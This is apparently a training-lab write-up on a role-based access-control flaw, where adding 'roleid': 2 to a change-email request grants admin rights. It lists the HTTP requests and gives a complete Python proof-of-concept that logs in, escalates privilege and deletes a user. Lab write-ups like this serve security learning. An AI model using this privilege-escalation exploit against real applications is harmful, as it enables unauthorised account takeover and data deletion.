 This lab has an admin panel at `/admin`. It's only accessible to logged-in users with a `roleid` of 2.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

---

Request needed for exploit:
- Login with wiener account
- Reset email adding the id field set to 2
- Navigate to admin panel
- Delete user carlos

1. GET /login HTTP/2

```json
username=wiener&password=peter
```

2. POST /my-account/change-email HTTP/2
```json
{
"email":"test@test.com",
"roleid": 2
}
```


3. GET /admin HTTP/2

4. GET /admin/delete?username=carlos HTTP/2

I can probably skip the third step for the exploit, but we'll see.

PoC
_Author: z0d_
_10:06 2024-09-23_
```python
#!/usr/bin/python3

import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}


def del_carlos(s, url):
	print('[+] Working......')
	del_acc_url = url + '/admin/delete?username=carlos'
	r = s.get(del_acc_url, verify=False, proxies=proxies)
	if 'User deleted successfully!' in r.text:
		print('[+] User successfully deleted! Exiting script.')
		
	else: 
		print('[-] Something went wrong....')
		sys.exit(-4)
		

def upgrade_to_admin(s, url):
	print('[+] Upgrading to admin account.')
	become_admin = url + '/my-account/change-email'
	data = {
		"email":"test@test.com",
		"roleid": 2
	}
	
	r = s.post(become_admin, json=data, verify=False, proxies=proxies)
	if 'Admin panel' in r.text:
		print('[+] Upgraded to admin. Deleting user Carlos...')
		del_carlos(s, url)
	else:
		print('[-] Exploit failed.')
		sys.exit(-3)
	

def log_account(s, url):
	print("[+] Logging into Wiener account.")
	login_url = url + "/login"
	data = {
		"username": "wiener",
		"password": "peter"
	}
	
	r = s.post(login_url, data=data, verify=False, proxies=proxies)
	if 'my-account?id=wiener' in r.text:
		upgrade_to_admin(s, url)
	else:
		print('[-] Unable to Login...')
		sys.exit(-2)


def main():
	if len(sys.argv) != 2:
		print('[+] Usage: %s <URL>' % sys.argv[0])
		print('[+] Example: %s www.example.com' % sys.argv[0])
		sys.exit(-1)
	
	url = sys.argv[1]
	s = requests.Session()
	log_account(s, url)
		
if __name__  == '__main__':
	main()
```



